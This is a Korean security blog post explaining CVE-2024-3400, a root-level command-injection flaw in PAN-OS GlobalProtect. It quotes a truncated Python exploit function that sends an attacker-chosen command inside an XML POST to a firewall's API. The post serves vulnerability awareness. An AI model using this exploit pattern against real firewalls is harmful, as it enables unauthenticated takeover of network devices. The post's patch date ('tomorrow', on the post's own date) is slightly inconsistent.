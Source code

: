 ```yaml
---
title: "[하루한줄] ITW CVE-2024-3400: Palo Alto Networks PAN-OS의 GlobalProtect 기능에서 발생한 Command Injection 취약점"
author: j0ker
tags: [CVE-2024-3400, Palo Alto Networks, PAN-OS, command injection, ITW, GlobalProtect,  j0ker]
categories: [1day1line]
date: 2024-04-14 18:00:00
cc: true
index_img: /img/1day1line.png
---
```

## Title

ITW CVE-2024-3400: Palo Alto Networks PAN-OS의 GlobalProtect 기능에서 발생한 Command Injection 취약점

## URL

- [Exploit Code from Github](https://github.com/DrewskyDev/CVE-2024-3400/tree/main)
- [Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect (CVE-2024-3400)](https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/)

## Target

- < PAN-OS 11.1.2-h3
- < PAN-OS 11.0.4-h1
- < PAN-OS 10.2.9-h1

## Explain

CVE-2024-3400은 Palo Alto Networks 사에서 판매하는 장비들에 탑재되어 있는 운영체제인 PAN-OS에서 발견된 Command Injection 취약점입니다. 해당 취약점은 현재 UTA0218 그룹에서 방화벽 공격에 실제 사용하고 있는 취약점으로 Exploit할 경우 root 권한으로 명령어를 실행할 수 있습니다.

```python
def exploit_firewall(target_ip, payload, root_ca=None):
    url = f"https://{target_ip}/api/"

    data = f"""<?xml version="1.0" encoding="UTF-8"?>
    <request>
        <op cmd="test" />
        <cmd code="ping">{payload}</cmd>
    </request>"""

    headers = {
        "User-Agent": "PAN-OS-Exploit",
        "Content-Type": "application/xml"
    }

    try:
        if root_ca:
            response = requests.post(url, headers=headers, data=data, timeout=5, verify=root_ca)
        else:
            response = requests.post(url, headers=headers, data=data, timeout=5, verify=False)
```

깃헙에 공개된 POC를 확인해 보면 단순하게 POST  요청의 데이터에 xml 포맷으로 원하는 명령어를 입력하면 명령어를 실행할 수 있습니다. PAN-OS에서는 해당 페이로드를 처리하는 과정에서 명령어에 대한 필터링을 하지 않아 취약점이 발생한 것으로 보이며 해당 명령어는 root 권한으로 실행됩니다.  

외부 네트워크에서 공격을 쉽게 수행할 수 있고, 공격 난이도가 낮으며 공격 성공 시 root 권한을 획득할 수 있는 등의 임팩트를 고려해 CVSS4.0 10을 받았습니다.

해당 취약점은 내일(2024년 4월 14일)에 패치가 공개될 예정입니다.

## Reference

- [Threat Brief: Operation MidnightEclipse, Post-Exploitation Activity Related to CVE-2024-3400](https://unit42.paloaltonetworks.com/cve-2024-3400/)
- [CVE-2024-3400 PAN-OS: OS Command Injection Vulnerability in GlobalProtect Gateway](https://security.paloaltonetworks.com/CVE-2024-3400)